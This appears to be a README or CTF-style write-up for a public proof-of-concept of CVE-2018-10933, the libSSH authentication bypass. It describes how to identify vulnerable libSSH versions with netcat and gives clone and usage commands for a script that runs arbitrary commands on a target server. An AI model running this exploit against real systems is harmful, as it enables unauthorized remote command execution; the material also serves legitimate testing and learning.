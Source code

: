 # They Are Coming

## Introduction

Upon connecting via netcat (`nc`), the server provides the name of the libSSH library. If the output is 0.7.5, 0.6.*, or lower, the server is vulnerable to CVE-2018-10933.

## CVE-2018-10933 Proof of Concept

This repository contains a proof of concept for CVE-2018-10933.

### Installation

Clone the repository:

```bash
git clone https://github.com/blacknbunny/CVE-2018-10933.git
```

### Usage 

- Navigate to the cloned directory. 
- Run the exploit script with the appropriate parameters: 

```python libsshauthbypass.py --host <ip> --port <port> --command <command_line>``` 
Replace <ip> with the IP address of the vulnerable server, <port> with the port number, and <command_line> with the desired command to execute. 

### Example 

```python libsshauthbypass.py --host 192.168.1.100 --port 22 --command "whoami"``` 
This command will exploit the vulnerability on a server with IP address 192.168.1.100 listening on port 22, executing the whoami command.